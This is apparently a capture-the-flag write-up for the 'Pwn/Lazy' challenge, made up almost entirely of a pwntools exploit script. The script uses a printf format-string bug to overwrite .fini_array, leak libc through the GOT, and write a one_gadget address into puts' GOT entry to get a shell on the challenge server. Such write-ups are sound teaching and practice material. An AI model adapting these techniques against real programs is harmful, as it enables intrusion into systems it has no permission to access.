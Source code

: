 # Pwn/Lazy (23 solves / 209 points)

## Description:
Perhaps printf can do more than just read from the stack. I was too lazy to find out though. There’s not even a reference to the flag anyway. Do you think you GOT this? Connect at
`nc lazy.litctf.live 1337`.

[lazy_pwn.zip](https://drive.google.com/uc?export=download&id=1AlOY4JrxyFbUQvihghInlhB7tmdY0jT_)!

## Solution:
```
from pwn import *

elf = ELF("lazy")
libc = ELF("libc-2.31.so")
#conn = elf.process()
conn = remote("lazy.litctf.live", 1337)

# overwrite _fini_array with main()
fini = 0x0000000004031c8
# overwrite char by char because we dont wanna get huge chunks of text from server
payload = b"%17c%12$hhn%47c%11$hhn%18c%13$hhnb%14$se" + p64(fini+2) + p64(fini+1) + p64(fini) + p64(elf.got['puts'])
log.info("Overwriting .fini_array with main() to get a second pass, also leaking libc")
conn.sendlineafter("?\n", payload)

conn.recvuntil('b') # identify leak
leak = u64(conn.recvuntil('e')[:-1] + b'\x00\x00') # unpack leak
log.info("puts() libc: " + hex(leak))
libc.address = leak - libc.symbols['puts']
log.info("libc base: " + hex(libc.address))

one_gadget = libc.address + 0xcbd1a # one_gadget libc-2.31.so
gadget_lower = one_gadget % 16**4
gadget_upper = (one_gadget >> 16) % 16**4
diff = gadget_upper - gadget_lower
log.info("one_gadget: " + hex(one_gadget))


log.info("Writing address of one_gadget to puts() GOT")
if diff > 0: # write the smaller one first
  payload = b"%" + str(gadget_lower).encode() + b"c%10$hn%" + str(diff).encode() +  b"c%11$hn      " + p64(elf.got['puts']) + p64(elf.got['puts']+2)
  if len(payload) == 47:
    payload = b"%" + str(gadget_lower).encode() + b"c%9$hn%" + str(diff).encode() +  b"c%10$hn" + p64(elf.got['puts']) + p64(elf.got['puts']+2)
else:
  payload = b"%" + str(gadget_upper).encode() + b"c%10$hn%" + str(abs(diff)).encode() +  b"c%11$hn      " + p64(elf.got['puts']+2) + p64(elf.got['puts'])
  if len(payload) == 47:
    payload = b"%" + str(gadget_upper).encode() + b"c%9$hn%" + str(abs(diff)).encode() +  b"c%10$hn" + p64(elf.got['puts']+2) + p64(elf.got['puts'])

conn.sendline(payload)
conn.recvuntil('\x00') # clean up output
conn.recv(5)

conn.interactive()
```